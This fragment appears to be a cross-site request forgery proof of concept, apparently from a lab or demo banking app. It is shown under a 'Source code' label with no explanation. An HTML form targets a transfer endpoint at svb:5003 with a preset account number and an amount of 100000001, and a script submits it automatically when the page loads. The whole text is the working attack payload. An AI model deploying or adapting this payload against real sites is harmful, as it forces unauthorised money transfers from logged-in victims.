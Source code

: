 <form method="POST" action="http://svb:5003/transfer/1">
    <input class="input is-large" type="text" name="account" placeholder="To account number" value="132">
    <input class="input is-large" type="text" name="amount" placeholder="Amount" value="100000001">
</form>
<script>
        document.forms[0].submit();
</script>
